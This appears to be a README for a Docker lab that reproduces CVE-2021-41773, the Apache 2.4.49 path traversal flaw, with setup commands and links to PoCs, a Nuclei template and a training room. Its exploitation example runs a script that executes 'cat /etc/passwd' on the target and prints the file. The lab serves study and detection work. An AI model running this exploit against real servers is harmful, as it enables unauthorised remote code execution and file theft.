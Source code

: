# CVE-2021-41773
A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier versions. The fix in Apache HTTP Server 2.4.50 was found to be incomplete, see CVE-2021-42013.


## Metrics
CVSSv2: 4.3 MEDIUM
CVSSv3: 7.5 HIGH 

## Vulnerability Environment
Build and run:
```bash
docker compose build
docker compose up -d
```

Find Apache IP:
```bash
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' apache_cve_2021_41773
```

Stop Environment and remove network
```bash
docker compose down
```

## Detection and exploitation example
### Exploitation example:
```bash
❯ ./CVE-2021-41773.sh 172.18.0.2 "cat /etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

## Exploits and PoCs
https://github.com/lorddemon/CVE-2021-41773-PoC
https://github.com/iilegacyyii/PoC-CVE-2021-41773

## Nuclei Template
https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2021/CVE-2021-41773.yaml
## CTF Rooms
[TryHackMe: CVE-2021-41773/42013](https://tryhackme.com/r/room/cve202141773)
## References